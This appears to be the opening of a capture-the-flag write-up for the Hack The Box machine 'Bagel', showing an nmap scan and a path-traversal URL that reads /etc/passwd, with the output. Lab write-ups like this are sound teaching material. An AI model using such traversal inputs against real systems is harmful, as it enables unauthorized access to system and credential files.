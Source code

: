 ```yaml
---
layout: post
title: "HTB: Bagel"
author: Andrew Cherney
date: 2023-06-17 10:39:43
tags: htb medium-box webapp deserialization lfi websockets
icon: "assets/icons/bagel.png"
post_description: "Bagel is a box which uses some interesting use of local file reading to let you piece together how the application runs. Once you've figured that a few clever file reads can give you the source material running the application, and you better have dnSpy ready. From that analysis with dnSpy initial foothold through insecure deserialization can be obtained, after which you can use a hard coded password for developer. And in poetic fashion root is gained with the dotnet command."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Bagel]
└──╼ $nmap -sC 10.10.11.201
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-27 17:56 CST
Nmap scan report for 10.10.11.201
Host is up (0.055s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 6e:4e:13:41:f2:fe:d9:e0:f7:27:5b:ed:ed:cc:68:c2 (ECDSA)
|_  256 80:a7:cd:10:e7:2f:db:95:8b:86:9b:1b:20:65:2a:98 (ED25519)
5000/tcp open  upnp
8000/tcp open  http-alt
|_http-title: Did not follow redirect to http://bagel.htb:8000/?page=index.html
```

<h2>Port 8000 - http-alt</h2>

{% include img_link src="/img/bagel/Bagel_front_page" alt="front_page" ext="png" trunc=600 %}

<h2>Local File Read</h2>

Looking around I don't see many leads. The url though does pose a potential vulnerability. I toss **http://bagel.htb:8000/?page=../../../../etc/passwd** and to my surprise it worked:

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
```